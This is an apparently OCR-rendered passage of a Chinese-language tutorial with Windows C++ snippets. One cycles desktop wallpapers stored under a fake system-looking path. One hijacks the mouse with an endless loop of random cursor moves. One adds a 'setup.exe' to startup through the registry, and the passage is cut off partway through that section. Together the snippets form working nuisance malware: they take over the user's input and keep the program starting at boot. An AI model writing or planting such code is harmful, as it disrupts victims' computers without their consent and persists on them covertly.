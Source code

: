     int main(){
       PVOID s[10] = {
            (PVOID)"D:\\windows\\system32\\bin\\background.jpg" ,
            (PVOID)"D:\\windows\\system32\\bin\\background1.jpg" ,
             ...
            (PVOID)"D:\\windows\\system32\\bin\\background6.jpg" ,
            (PVOID)"D:\\windows\\system32\\bin\\background7.jpg" ,
            (PVOID)"D:\\windows\\system32\\bin\\background8.jpg" ,
            (PVOID)"D:\\windows\\system32\\bin\\background9.jpg"
            };
        SystemParametersInfo(20, true,s, 1) ;
        for(int i=0;i<10;i++){
            SystemParametersInfo(20, true,s[i], 1) ;
            Sleep(1000);//控制时间间隔
        }
    
        return 0 ;  
    }

## 控制鼠标代码
利用随机数和while死循环达到鼠标不受控制疯狂随机移动的功能。

    #include<stdio.h>
    #include<windows.h>
    #include<iostream>
    #include <tchar.h>
    #include<cstdlib>
    #include<ctime>
    using namespace std ;
    
    int main(){
        POINT sb;
        srand((unsigned)time(NULL));
        GetCursorPos (&sb);//获取鼠标坐标
        while(1){
            SetCursorPos(rand()%1000,rand()%800);//更改鼠标坐标
            Sleep(1);//控制移动时间间隔
        }
        return 0 ;
    }


## 开机自启动代码
> ret = RegSetValueEx(hkey,_T("新加项名称"),0,REG_SZ,(const BYTE*)("d:\\windows\\setup.exe"),21);  
   
第二个参数是项名称，第五个参数是要开机启动程序的路径位置，最后一个参数是第五个参数路径字符长度。

    #include<stdio.h>
    #include<windows.h>
    #include<iostream>
    #include <tchar.h>
    #include<cstdlib>
    #include<ctime>
    using namespace std ;
    